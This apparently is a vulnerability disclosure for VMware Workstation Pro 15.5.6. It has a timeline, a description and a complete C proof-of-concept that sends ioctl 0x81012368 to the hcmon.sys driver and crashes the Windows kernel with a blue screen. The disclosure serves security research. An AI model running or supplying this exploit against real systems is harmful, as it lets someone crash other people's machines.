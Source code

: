 # VMware USB monitor allows attackers to cause blue screen
These page show one of the practical vulns that Found. I reported these bugs to Security@vmware.com on On 27/8/2020 and now I have been told they have ignored the bugs and the details can be published.  I think it is a must to list the detailed infomation here.
## Time Line
 * 27/8/2020 Bugs were reported to Security@vmware.com.
 * 25/9/2020 Vmware got confirmation that the poc could cause system crash.
 * 26/9/2020 Vmware ignored the infomation for the poc required privilige to file "\\\\.\\hcmon"
 * 12/11/2020 POC published.
 

 ## Abstract
 
* Name: VMware Workstation
* Date: 2020-8-27
* Reporter: Shuaibing Lu
* Vendor: http://www.vmware.com/
* Software Link: 3.https://my.vmware.com/cn/web/vmware/downloads/details?downloadGroup=WKST-1556-WIN&productId=799&rPId=47859
* Version: VMware Workstation Pro 15.5.6
### Description
Kernel module hcmon.sys in the USB monitor component of VMware Workstation Pro 15.5.6 allows attackers to inject a crafted argument via the argument of an ioctl on device "\\\\.\\hcmon" with the command **0x81012368** and cause a kernel crash.

To explore this vulnerability, some one must open the device file "\\\\.\\hcmon", call an ioctl system call on this device file with the command **0x81012368** and a crafted payload as the third argument.
### PoC
```
//Experimental environment: win10 x64

//Software official website:https://www.vmware.com/cn.html

//Software download address:http:https://my.vmware.com/cn/web/vmware/downloads/details?downloadGroup=WKST-1556-WIN&productId=799&rPId=47859

//Software version：15.5.6 build-16341506

//Affected Component:

//poc


#include<stdio.h>

#include <windows.h>

typedef struct _IO_STATUS_BLOCK {

    union {

        NTSTATUS Status;

        PVOID    Pointer;

    } DUMMYUNIONNAME;

    ULONG_PTR Information;

} IO_STATUS_BLOCK, * PIO_STATUS_BLOCK;



typedef NTSTATUS(NTAPI* NtDeviceIoControlFile)(

    HANDLE           FileHandle,

    HANDLE           Event,

    PVOID            ApcRoutine,

    PVOID            ApcContext,

    PIO_STATUS_BLOCK IoStatusBlock,

    ULONG            IoControlCode,

    PVOID            InputBuffer,

    ULONG            InputBufferLength,

    PVOID            OutputBuffer,

    ULONG            OutputBufferLength

    );

int main() {
    char  DeviceName[] = "\\\\.\\hcmon";
    long command = 0x81012368;
    HANDLE hDriver = CreateFileA(DeviceName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    ULONG dw;

    if (hDriver == INVALID_HANDLE_VALUE) {
        printf("Open device failed.\n");
        system("pause");

        return(-1);

    }

    LPCWSTR nt = L"ntdll";

    HMODULE hntdll = GetModuleHandle(nt);

    IO_STATUS_BLOCK p = {};

    NtDeviceIoControlFile tDeviceIoControl = (NtDeviceIoControlFile)GetProcAddress((HMODULE)hntdll, "NtDeviceIoControlFile");

    if (!tDeviceIoControl) {

        printf("[-] Fail to resolve ZwDeviceIoControlFile(0x%X)\n", GetLastError());

        system("pause");

    }

    printf("Start poc execution.\n");
    LPVOID lpFakeBuffer = malloc(0x20000);

    memset(lpFakeBuffer, 0, 0x20000);

    LPVOID Address = malloc(0x20000);

    memset(Address, 0, 0x20000);

    tDeviceIoControl(hDriver, 0, 0, 0, &p, command, lpFakeBuffer, 0, (PVOID)Address, 0);

    return 0;

}
```
### References

CNVD: https://www.cnvd.org.cn/flaw/show/CNVD-2020-53155 

### Screenshot

![image](https://github.com/datadancer/WinSysVuln/blob/main/vmvare%20hcmon.jpg)

